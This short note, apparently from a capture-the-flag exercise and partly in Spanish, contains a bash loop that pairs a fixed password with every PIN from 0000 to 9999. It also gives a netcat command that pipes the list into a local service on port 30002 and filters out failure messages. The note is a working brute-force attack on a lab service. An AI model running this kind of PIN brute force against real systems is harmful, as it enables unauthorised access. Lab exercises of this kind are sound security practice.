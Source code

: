 #!/bin/bash

for i in {0000..9999}; do
         echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" 
 done


-------------------------------------------------------------------------------------------------------------------


Para mandar este diccionario de contraseñas por un puerto especifico seria con este comando: 
  
  cat dictionary.txt | nc localhost 30002 | grep -v -E "Wrong|Please" (grep -v -E para quitar errores en caso de ser necesario)
